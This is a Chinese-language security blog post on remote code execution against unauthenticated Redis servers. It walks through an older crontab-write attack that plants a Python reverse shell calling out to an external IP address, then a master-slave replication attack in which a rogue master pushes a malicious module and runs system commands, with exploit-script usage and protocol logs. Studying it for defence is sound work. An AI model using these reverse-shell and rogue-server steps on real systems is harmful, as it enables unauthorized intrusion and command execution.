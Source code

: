```yaml
---
title: Redis 基于主从复制的RCE利用方式
date: 2019-07-10 16:36:11
tags:
- redis
- rce
---
```


在2019年7月7日结束的WCTF2019 Final上，LC/BC的成员Pavel Toporkov在分享会上介绍了一种关于redis新版本的RCE利用方式，比起以前的利用方式来说，这种利用方式更为通用，危害也更大，下面就让我们从以前的redis RCE利用方式出发，一起聊聊关于redis的利用问题。

[https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)


<!--more-->

# 通过写入文件 GetShell

未授权的redis会导致GetShell，可以说已经是众所周知的了。
```
127.0.0.1:6379> config set dir /var/spool/cron/crontabs
OK
127.0.0.1:6379> config set dbfilename root
OK
127.0.0.1:6379> get 1
"\n* * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"115.28.78.16\",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n"
127.0.0.1:6379> save
OK
```

而这种方式是通过写文件来完成GetShell的，这种方式的主要问题在于，redis保存的数据并不是简单的json或者是csv，所以写入的文件都会有大量的无用数据，形似
```
[padding]
* * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"115.28.78.16\",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'
[padding]
```

这种主要利用了crontab、ssh key、webshell这样的文件都有一定容错性，再加上crontab和ssh服务可以说是服务器的标准的服务，所以在以前，这种通过写入文件的getshell方式基本就可以说是很通杀了。

但随着现代的服务部署方式的不断发展，组件化成了不可逃避的大趋势，docker就是这股风潮下的产物之一，而在这种部署模式下，一个单一的容器中不会有除redis以外的任何服务存在，包括ssh和crontab，再加上权限的严格控制，只靠写文件就很难再getshell了，在这种情况下，我们就需要其他的利用手段了。

# 通过主从复制 GetShell

在介绍这种利用方式之前，首先我们需要介绍一下什么是主从复制和redis的模块。

## Redis主从复制

Redis是一个使用ANSI C编写的开源、支持网络、基于内存、可选持久性的键值对存储数据库。但如果当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式，主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

这里我们开两台docker来做测试
```
ubuntu@VM-1-7-ubuntu:~/lorexxar$ sudo docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                    NAMES
3fdb2479af9c        redis:5.0           "docker-entrypoint.s…"   22 hours ago        Up 4 seconds        0.0.0.0:6380->6379/tcp   epic_khorana
3e313c7498c2        redis:5.0           "docker-entrypoint.s…"   23 hours ago        Up 23 hours         0.0.0.0:6379->6379/tcp   vibrant_hodgkin
```

然后通过slaveof可以设置主从状态

![image.png-62.6kB][1]

这样一来数据就会自动同步了

## Redis模块

在了解了主从同步之后，我们还需要对redis的模块有所了解。

在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。

编写恶意so文件的代码
[https://github.com/RicterZ/RedisModules-ExecuteCommand](https://github.com/RicterZ/RedisModules-ExecuteCommand)


## 利用原理

Pavel Toporkov在2018年的zeronights会议上，分享了关于这个漏洞的详细原理。

[https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

![image.png-1550kB][2]

在ppt中提到，在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。

然后在从机上加载so文件，我们就可以执行拓展的新命令了。

## 复现过程

这里我们选择使用模拟的恶意服务端来作为主机，并模拟fullresync请求。

[https://github.com/LoRexxar/redis-rogue-server](https://github.com/LoRexxar/redis-rogue-server)

然后启用redis 5.0的docker

```
ubuntu@VM-1-7-ubuntu:~/lorexxar/redis-rogue-server$ sudo docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                    NAMES
3e313c7498c2        redis:5.0           "docker-entrypoint.s…"   25 hours ago        Up 25 hours         0.0.0.0:6379->6379/tcp   vibrant_hodgkin
```

为了能够更清晰的看到效果，这里我们把从服务端执行完成后删除的部分暂时注释掉。

然后直接通过脚本来攻击服务端
```
ubuntu@VM-1-7-ubuntu:~/lorexxar/redis-rogue-server$ python3 redis-rogue-server_5.py --rhost 172.17.0.3 --rport 6379 --lhost 172.17.0.1 --lport 6381
TARGET 172.17.0.3:6379
SERVER 172.17.0.1:6381
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$10\r\n172.17.0.1\r\n$4\r\n6381\r\n'
[->] b'+OK\r\n'
[<-] b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
[->] b'+OK\r\n'
[->] b'*1\r\n$4\r\nPING\r\n'
[<-] b'+PONG\r\n'
[->] b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<-] b'+OK\r\n'
[->] b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<-] b'+OK\r\n'
[->] b'*3\r\n$5\r\nPSYNC\r\n$40\r\n17772cb6827fd13b0cbcbb0332a2310f6e23207d\r\n$1\r\n1\r\n'
[<-] b'+FULLRESYNC ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ 1\r\n$42688\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00'......b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x11\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xea\x9f\x00\x00\x00\x00\x00\x00\xd3\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\r\n'
[<-] b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
[->] b'+OK\r\n'
[<-] b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
[->] b'+OK\r\n'
```

然后我们链接上去就可以执行命令
```
ubuntu@VM-1-7-ubuntu:~/lorexxar/redis-rogue-server$ redis-cli -h 172.17.0.3
172.17.0.3:6379> system.exec "id"
"\x89uid=999(redis) gid=999(redis) groups=999(redis)\n"
172.17.0.3:6379> system.exec "whoami"
"\bredis\n"
```





  [1]: http://static.zybuluo.com/LoRexxar/ez0kvxi6tsjj6yafo2jflf69/image.png
  [2]: http://static.zybuluo.com/LoRexxar/1acc0xkhkaq31lgduuzpau23/image.png

